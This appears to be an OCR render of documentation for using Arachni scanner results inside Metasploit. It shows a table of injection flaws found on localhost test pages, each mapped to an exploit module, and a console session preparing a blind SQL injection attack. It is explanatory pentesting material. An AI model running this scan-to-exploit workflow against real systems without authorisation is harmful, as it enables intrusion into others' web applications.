     Vulnerabilities
    ===============

        ID  Host       Path                                    Name                   Method  Params                               Exploit
        --  ----       ----                                    ----                   ------  ------                               -------
        1   127.0.0.1  /~zapotek/tests/trainer.php             Remote file inclusion  COOKIE  {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        2   127.0.0.1  /~zapotek/tests/trainer.php             Remote file inclusion  COOKIE  {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        3   127.0.0.1  /~zapotek/tests/cookies/os_command.php  OS command injection   COOKIE  {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        4   127.0.0.1  /~zapotek/tests/cookies/os_command.php  OS command injection   COOKIE  {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        5   127.0.0.1  /~zapotek/tests/cookies/rfi.php         Remote file inclusion  COOKIE  {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        6   127.0.0.1  /~zapotek/tests/cookies/rfi.php         Remote file inclusion  COOKIE  {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        7   127.0.0.1  /~zapotek/tests/cookies/eval.php        Code injection         COOKIE  {"eval"=>"%3BXXinjectionXX"}         unix/webapp/arachni_php_eval
        8   127.0.0.1  /~zapotek/tests/forms/eval.php          Code injection         POST    {"eval"=>";XXinjectionXX"}           unix/webapp/arachni_php_eval
        9   127.0.0.1  /~zapotek/tests/forms/os_command.php    OS command injection   POST    {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        10  127.0.0.1  /~zapotek/tests/forms/os_command.php    OS command injection   POST    {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        11  127.0.0.1  /~zapotek/tests/forms/rfi.php           Remote file inclusion  POST    {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        12  127.0.0.1  /~zapotek/tests/forms/rfi.php           Remote file inclusion  POST    {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        13  127.0.0.1  /~zapotek/tests/forms/sqli.php          SQL Injection          POST    {"sql_inj"=>"1"}                     unix/webapp/arachni_sqlmap
        14  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   GET     {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        15  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   GET     {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        16  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  GET     {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        17  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  GET     {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        18  127.0.0.1  /~zapotek/tests/links/eval.php          Code injection         GET     {"eval"=>";XXinjectionXX"}           unix/webapp/arachni_php_eval
        19  127.0.0.1  /~zapotek/tests/links/sqli.php          Blind SQL Injection    GET     {"id"=>"1"}                          unix/webapp/arachni_sqlmap


    msf > arachni_manual 19     # The vulnerability with ID '19' uses the 'unix/webapp/arachni_sqlmap' module
    [*] Using unix/webapp/arachni_sqlmap .
    [*] Preparing datastore for 'Blind SQL Injection' vulnerability @ 127.0.0.1/~zapotek/tests/links/sqli.php ...
    SRVHOST => 127.0.0.1
    SRVPORT => 7872
    RHOST => 127.0.0.1
    RPORT => 80
    LHOST => 127.0.0.1
    LPORT => 12633
    SSL => false
    GET => id=1
    METHOD => GET
    COOKIES =>
    HEADERS => Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8::User-Agent=Arachni/0.2.1
    PATH => /~zapotek/tests/links/sqli.php